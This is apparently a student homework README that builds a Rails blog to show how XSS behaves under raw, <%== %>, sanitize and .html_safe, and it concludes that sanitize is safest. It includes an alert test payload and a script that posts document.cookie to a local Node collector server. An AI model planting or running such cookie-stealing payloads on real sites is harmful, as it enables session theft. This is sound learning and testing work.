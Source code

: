 #Homework
##Steps how to create a project to demonstrate how XSS works using rails.

###Create new project with User and Blog model
First This is how we start create the new project by typing this in you terminal:

```bash
$ rails new hm2
$ cd hm2
```
>***Make sure that your directory is correct!!***

After that you have to put devise gem in **Gemfile**:

```ruby
gem 'devise'
```
Then type this in you terminal:

```bash
$ rails generate devise:install
$ rails generate devise USER
$ rake db:migrate
```
After that create view controller model by using scaffolr, and type it in you terminal:

```bash
$ rails g scaffold Blog content:text user:references
$ rake db:migrate
```

>If you finish until this step, you will get project with model and user.

Then Start server:

```ruby
$ rails s
```

###User Authenticate

go to **app/controllers/application_controller.rb** then add this:

```ruby
before_action :authenticate_user!
```
It will become like this:

```ruby
class ApplicationController < ActionController::Base
  # Prevent CSRF attacks by raising an exception.
  # For APIs, you may want to use :null_session instead.
  protect_from_forgery with: :exception
  before_action :authenticate_user!
end

```
###Set up root
so it will make user to login first before to add something. After that change root in **config/routes.rb** like this:

```ruby
root to: 'blogs#index'
```
then it will become like:

```ruby
Rails.application.routes.draw do
  resources :blogs
  devise_for :users
  root to: 'blogs#index'
end
```
###Add Sign out & Change User to User ID
After that i put sign out button to the page so they can sign out by typing this in to **app/views/blogs/index.html.erb**:

```ruby
<a href=""><%= link_to "Sign Out", destroy_user_session_path, method: :delete %><br></a>
```
then also change:

```ruby
<%= blog.user %>
```
to

```ruby
<%= blog.user_id %>
```

> This to make you see the user ID



#Cross-site scripting (XSS)
Try rendering content as HTML instead of plain text by using this ```raw```,```<%== %>```, ```sanitize```, or ```.html_safe ```

To Check Which render function is the safest i put this

```javascript
<script>
alert("hahahah");
</script>
```
into the content box when i create the new content

![pic0](app/assets/images/img0.png)

First, when i add ```raw``` as in the pic:
![pic1](app/assets/images/img1.png)

Then it will show like this the pop up message pop with the ```"hahaha"```

![pic2](app/assets/images/img2.png)



Second, when i add ```<%== %>``` as in the pic:
![pic3](app/assets/images/img3.png)

Then it shows this the pop up message pop with the ```"hahaha"```

![pic4](app/assets/images/img4.png)



Third, when i add ```sanitize``` as in the pic:
![pic3](app/assets/images/img5.png)

After that it will not pop up anything, it will remove any unwanted  data for example here ``` <script></script>``` out and normalize it to the correct form as in the pic:

![pic4](app/assets/images/img6.png)


Last, when i add ```.html_safe ``` as in the pic:
![pic3](app/assets/images/img3.png)

Then it will show this the pop up message pop with the ```"hahaha"```

![pic4](app/assets/images/img4.png)

##Create another using node
first create a folder to keep node for me i name the folder as "xxs" then install:

```bash
$ npm install
```

to run node use command:

```bash
$ node index.js
```

I also add this into **package.json**:

```json
{
  "name": "xss_server",
  "version": "1.0.0",
  "description": "",
  "dependencies": {
    "body-parser": "^1.15.0",
    "express": "^4.13.4",
    "lowdb": "^0.12.5"
  }
}

```
to send data i put this into content:

```java
<script type="text/javascript">
$.post( "http://localhost:5000/boss", {cookie_data: document.cookie});
</script>
```

##Answer the Question

So to answer the question that Which render function is the safest?, i will answer that using ```sanitize``` is the safest because it will remove any unwanted  data out and normalize it to the correct form.
